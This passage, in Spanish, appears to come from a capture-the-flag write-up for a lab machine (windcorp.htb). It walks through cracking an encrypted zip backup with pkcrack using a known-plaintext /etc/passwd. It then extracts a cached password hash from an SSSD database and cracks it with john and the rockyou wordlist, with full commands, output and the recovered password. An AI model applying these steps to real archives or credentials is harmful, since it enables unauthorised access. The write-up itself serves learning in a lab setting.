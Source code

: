 Para hacer el proceso inverso se puede utilizar la herramienta ```pkcrack```. Disponible en [Github](https://github.com/keyunluo/pkcrack). Es necesario crear un nuevo comprimido con el ```/etc/passwd``` del contenedor, para que lo tome como semilla

```null
zip plain.zip /etc/passwd
/opt/pkcrack/bin/extract plain.zip passwd passwd.plain
```

Extraigo el ```passwd``` encriptado del comprimido

```null
/opt/pkcrack/bin/extract backup.zip etc/passwd passwd.enc
```

Encuentro las keys

```null
pkcrack -c passwd.enc -p passwd.plain
Files read. Starting stage 1 on Mon Apr  3 14:04:52 2023
Generating 1st generation of possible key2_553 values...done.
Found 4194304 possible key2-values.
Now we're trying to reduce these...
Done. Left with 13702 possible Values. bestOffset is 24.
Stage 1 completed. Starting stage 2 on Mon Apr  3 14:05:13 2023
Ta-daaaaa! key0=d6829d8d, key1=8514ff97, key2=afc3f825
```

Le hago el decrypt

```null
/opt/pkcrack/bin/zipdecrypt d6829d8d 8514ff97 afc3f825 backup.zip decrypted.zip
```

Lo descomprimo

```null
unzip decrypted.zip -d backup
```

En ```var/lib/sss/db/cache_windcorp.htb.ldb``` hay credenciales cacheadas para un usuario, ```Ray.Duncan@WINDCORP.HTB:$6$nHb338EAa7BAeuR0$MFQjz2.B688LXEDsx035.Nj.CIDbe/u98V3mLrMhDHiAsh89BX9ByXoGzcXnPXQQF/hAj5ajIsm0zB.wg2zX81```

La crackeo con ```john```

```null
john -w:/usr/share/wordlists/rockyou.txt hash
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
pantera          (Ray.Duncan@WINDCORP.HTB)     
1g 0:00:00:00 DONE (2023-04-03 14:35) 4.000g/s 6144p/s 6144c/s 6144C/s 123456..mexico1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
